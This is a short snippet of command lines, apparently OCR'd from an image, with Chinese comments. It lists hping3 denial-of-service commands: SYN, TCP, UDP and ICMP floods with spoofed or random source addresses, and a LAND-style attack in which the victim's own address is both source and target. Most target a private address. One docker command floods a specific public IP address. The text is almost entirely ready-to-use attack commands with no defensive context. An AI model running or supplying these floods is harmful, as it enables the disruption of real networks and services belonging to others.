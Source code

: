 hping3 - c 2000 -d 100 -S -w 64 -p 80 --flood --rand-source 192.168.1.10

hping3 -S -P -U -p 80 --flood --rand-source 192.168.1.10



# 进行TCP Flood攻击，

hping3 -SARFUP -p 80 --flood --rand-source 192.168.1.10



# 进行UDP flood 攻击

hping3 -a 192.168.1.10 --udp -s 53 -d 100 -p 53 --flood 192.168.1.10



# 进行ICMP攻击

hping3 -q -n -a 192.168.1.10 --icmp -d 56 --flood 192.168.1.10



# 特殊TCP攻击：源地址目标地址都是受害者，受害者自己完成三次握手

hping3 -n -a 192.168.1.10 -S -d 100 -p 80 --flood 192.168.1.10



```javascript
docker run --rm sflow/hping3 -c 20000 -d 100 -S -w 64 -p 8899 --flood --rand-source 23.225.154.245
```

